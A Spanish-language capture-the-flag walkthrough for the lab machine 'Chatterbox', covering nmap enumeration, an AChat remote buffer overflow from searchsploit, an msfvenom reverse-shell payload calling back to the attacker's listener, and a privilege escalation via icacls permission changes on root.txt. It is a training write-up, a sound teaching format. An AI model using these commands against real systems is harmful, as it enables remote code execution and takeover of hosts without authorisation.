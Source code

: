 # Chatterbox {-}

## Introduccion {-}

La maquina del dia se llama Chatterbox.

El replay del live se puede ver aqui

[![S4vitaar Chatterbox maquina](https://img.youtube.com/vi/WeaLhmbatT0/0.jpg)](https://www.youtube.com/watch?v=WeaLhmbatT0)

Esta maquina hace parte de una sesion intensa y se puede ver a partir de 4:50:15.

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.74
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.74
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.74 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p9255,9256 10.10.10.74 -oN targeted
```


| Puerto | Servicio          | Que se nos occure? | Que falta? |
| ------ | ----------------- | ------------------ | ---------- |
| 9255   | http AChat        | Web, Fuzzing       |            |
| 9256   | achat chat system |                    |            |


## Vulnerability Assessment {-}


### Achat Chat system {-}

```bash
searchsploit achat
```

Todavia no savemos lo que es achat pero vemos exploit de typo Remote Buffer Overflow

```bash
searchsploit -m 36025
mv 36025.py achat_exploit.py
cat achat_exploit.py
```

Mirando el codigo, vemos que es un bufferflow normal que lanza una calculadora. Lo modificamos para
lanzar una reverse shell.
## Vuln exploit & Gaining Access {-}

### Ganando accesso con Remote BOF {-}


1. Nos creamos un nuevo shellcode basada a la informacion del exploit

    ```bash
    msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\
    x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\
    xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\
    xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\
    xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
    ```

1. Copiamos el shell code generado y lo ponemos al sitio del buff shellcode del exploit
1. Cambiamos la ip de la maquina victima
1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Lanzamos el exploit modificado con python 2

    ```bash
    python achat_exploit.py
    ```

```bash
whoami
#Output
chatterbox\alfred
```

Podemos leer la flag## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami /priv
cd Desktop
type root.txt
```

No podemos leer la flag de root pero es curioso que nos podamos meter en su directorio user.

```bash
icacls root.txt
cd ..
icacls Desktop
```

Vemos que el usuario alfred tiene privilegios Full sobre el directorio Desktop del usuario root.

```bash
cd Desktop
icacls root.txt /grant alfred:F
type root.txt
```

Podemos leer la flag, lol :)
